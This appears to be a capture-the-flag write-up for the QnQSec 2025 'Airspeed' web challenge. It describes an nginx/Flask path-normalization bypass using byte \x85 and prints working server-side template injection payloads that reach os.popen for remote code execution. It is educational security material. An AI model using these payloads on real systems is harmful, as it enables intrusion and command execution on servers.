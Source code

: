 

# WhiteDukesDZ - QnQSec CTF 2025 Writeup: Airspeed Web Challenge

![WhiteDukesDZ Logo](challenge/airspeed-challenge.png)


We were also provided with:
- `docker-compose.yml`
- `nginx.conf`
- `src` folder containing the web application source code

---

## Application Analysis

After analyzing `nginx.conf`, we can see there is a `/debug` endpoint that is denied. Accessing this endpoint directly results in a 403 status code response (Forbidden).

```conf
location = /debug {
    deny all;
    return 403;
}
```

By analyzing the web application files:

- We notice from the Dockerfile that `readflag.c` was compiled and placed in the root directory. Running `/readflag` from the web application container will display the flag.

- We notice from `app.py` that the web application uses the `airspeed` template engine.

- Nothing special was found in the other `app.py` endpoints since there are no user inputs, except for the `/debug` endpoint. When posting a JSON body with `name` set to a `value`, we receive back `Hello, value`:
    
    ```python
    @app.route('/debug', methods=['POST'])
    def debug():
        name = request.json.get('name', 'World')
        return airspeed.Template(f"Hello, {name}").merge({})
    ```

- We notice from `app.py` that the Flask server is run with `debug=True`.

    ```python
    if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)
    ```

### Security Observations

- While the `/debug` endpoint is denied by the nginx server and returns a 403 response when accessed directly, the web application server (Flask) doesn't block this endpoint at all. For example, with a normal GET request to `/` and a POST request to `/debug` with a JSON body of `name=manini`, this is what actually happens:

![WhiteDukesDZ Logo](demonstration/post-example.png)


### The Workaround

If we find a way to confuse nginx into treating our endpoint as different from `/debug`, while simultaneously making Flask interpret it as `/debug`, we can successfully access the forbidden endpoint. We'll attempt to find a discrepancy between nginx and Flask by testing all possible bytes after `/debug`. Our request will be to `/debug` + `byte`. To automate this process, we created a Python script. See `solution/find_disrepency.py`. (Note that we used `socket` instead of `requests` so our added bytes don't get normalized).

After running `solution/find_disrepency.py`, we got:

```bash
└─$ python3 find_disrepency.py
Bypass found with byte \x85
```

When requesting `/debug\x85` (at the byte level), nginx sees `/debug\x85` != `/debug`, but the Flask server interprets `/debug\x85` == `/debug` and serves the response. Let's test this (see `solution/simple_manini_post.py`).

```bash
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Mon, 20 Oct 2025 16:53:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Hello, manini
```
Perfect. Notice that our provided `name=manini` is reflected back.

### Exploring Server-Side Template Injection

As mentioned earlier, the web application uses `airspeed` as its template engine. What if we can inject something that gets evaluated instead of just `manini`?

After reviewing the `airspeed` documentation at http://velocity.apache.org/engine/1.7/user-guide.html, we can try `name=#set( $foo = 7*7 )\n$foo`. After testing:

```bash
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Mon, 20 Oct 2025 17:12:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 9
Connection: close

Hello, 49
```

Yes! The web application is vulnerable to SSTI. Our `7*7` expression was evaluated to `49`.

---

## Remote Code Execution

To get the flag, we need to run `/readflag` on the challenge instance. We already know the web application is vulnerable to SSTI, so we need to find a path to remote code execution.

Using `name=#set($s='')#set($base=$s.__class__.__mro__[1])#foreach($sub in $base.__subclasses__())$foreach.index: $sub\n#end` allows us to list available subclasses with their respective indexes. After execution, we have:

```bash
┌──(s450r1㉿S450R1)-[~/…/qnqsec-ctf-writeups/web/airspeed/solution]
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Tue, 21 Oct 2025 00:17:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 20778
Connection: close

Hello, 0: <class 'type'>
...
479: <class 'jinja2.utils.Cycler'>
...
```

## Solution

Since `cycler` is available, we can use it to execute commands on the host server using `cycler.__init__.__globals__.os.popen('/readflag').read()`. This can be achieved with a payload like:

```json
{
    "name": "#set($x='')\n#set($cycler=$x.__class__.__mro__[1].__subclasses__()[479])\n#set($init=$cycler.__init__)\n#set($globals=$init.__globals__)\n#set($os=$globals.os)\n#set($popen=$os.popen('ls'))\n$popen.read()"
}
```

After running `solution/exploit.py`, we get:

```bash
┌──(s450r1㉿S450R1)-[~/…/qnqsec-ctf-writeups/web/airspeed/solution]
└─$ python3 exploit.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Tue, 21 Oct 2025 01:18:38 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 41
Connection: close

Hello, QnQSec{n0w_th1s_1s_th3_r34l_f14g}
```

